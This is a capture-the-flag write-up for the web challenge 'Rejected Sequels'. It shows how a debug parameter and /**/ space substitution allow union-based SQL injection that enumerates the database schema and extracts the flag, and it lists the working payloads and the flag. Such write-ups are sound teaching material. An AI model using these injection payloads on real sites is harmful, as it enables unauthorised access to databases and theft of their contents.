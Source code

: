 # Rejected Sequels

## Problem

```
Look at all these movie sequels that never got released! Will yours make it through??

Connect here:
http://jh2i.com:50008
```

## Solution

***Note**: solved after competition end*

Accessing the link, we get this page that provides a form for searching movie names:

![](images/sequel1.PNG)

As usual, first we go to the page source to see if we can get any useful information. Indeed, it contains an 
interesting comment: `<!-- if ( isset($_GET["debug"])){ echo($sql_query); } -->`. In our GET requests, we need to set
the `debug` parameter in order to see the injection output get echo'd.

We try basic SQL injection (`" OR '1'='1`), however it only returns an error message from mySQL. Next we try inserting a mySQL print statement
`"union(select "hello world" as '')#`. It does show up at the bottom of all the entries, but without the space character.

![](images/sequel5.PNG)

Eventually we find that inline comment character `/**/` can be used to [substitute for spaces](https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/#InlineComments)
in the injection. Now we can try different SQL Injection attacks (mostly union-based).

Payload | Information
------- | ------------------
`"order/**/by/**/2#` or `union/**/select(1)#` | [error message confirms only single column is queried](images/sequeltable1.PNG)
`"union/**/select/**/schema_name/**/from/**/information_schema.schemata#` | [leak all databases in the webapp](images/sequeltable2.PNG)
`"union/**/select/**/table_name/**/from/**/information_schema.tables/**/where/**/table_schema="rejected_sequel"#` | [returns two tables: **flag, movies**](images/sequeltable3.PNG)
`"union/**/select/**/column_name/**/from/**/information_schema.columns/**/where/**/table_name="flag"#` | [flag table contains one column: **flag**](images/sequeltable4.PNG)
`"/**/union/**/select/**/flag/**/from/**/flag#` | [return values of column **flag** from table **flag**](images/sequeltable5.PNG)

Flag payload: `"/**/union/**/all/**/select/**/*/**/from/**/flag#` 

**Flag**: `flag{at_least_this_sequel_got_published}`


